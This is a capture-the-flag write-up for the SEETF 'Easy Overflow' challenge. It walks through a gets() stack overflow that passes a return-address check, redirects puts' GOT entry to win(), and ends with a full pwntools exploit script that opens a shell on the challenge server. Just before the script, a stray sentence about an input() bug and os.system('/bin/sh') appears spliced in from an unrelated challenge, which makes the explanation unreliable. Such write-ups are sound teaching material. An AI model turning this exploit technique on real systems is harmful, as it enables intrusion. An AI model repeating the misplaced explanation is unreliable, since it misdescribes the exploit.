

## Easy Overflow


### Description
>I did a check on my return address. Now you shouldn't be able to control my RIP.\
>nc fun.chall.seetf.sg 50003\
>MD5: a9a706d9b8d73ec0ee5c39bf0505d85e


### Gain Shell
Bufferoverflow challenge, but this time no sourcecode given, we can decompile the ELF file with IDA or Ghidra. Here I'm using IDA7.7.\
No PIE and no Canary.
```bash
linuz@linz:~/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow$ checksec easy_overflow
[*] '/home/linuz/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The **main()** function it's like this:\
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  puts("I will let you  overflow me.");
  vuln();
  puts("I will give you one more chance.");
  fgets(s, 8, stdin);
  puts(s);
  return 0;
}
```

And the **vuln()** function is like this:\
```c
int vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  char *retaddr; // [rsp+28h] [rbp+8h]

  gets(v1);
  if ( retaddr != main + 70 )
  {
    puts("Naughty Boi\n");
    exit(-1);
  }
  return puts("Good  boi\n");
}
```

There's a bufferoverflow in **vuln()** because program using **gets()** but there's a manual check on return if return not **main+70** it will exit.\
With this bufferoverflow we can overwrite the address of **s** at **main()** function. So after back to main it will like this.\

```py
payload = b'A'*32
payload += p64(0xdeadbeef)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
```
With this we can overwrite the GOT PUTS to **win()** function. Because there's `lea, [rbp-0x20]` our value will be substracted with 0x20, just add +0x20 to get the correct value.\
Full Script:

The bug is on **input()** at choice 4, because the program already **import os**, then just simply input **os.system("/bin/sh")** to get shell

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./easy_overflow")
p = process("./easy_overflow")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50003

cmd = """
b*0x00000000004011a1
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)


payload = b'A'*32
payload += p64(elf.got['puts']+0x20)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
p.sendline(p64(elf.sym['win']))
p.interactive()
````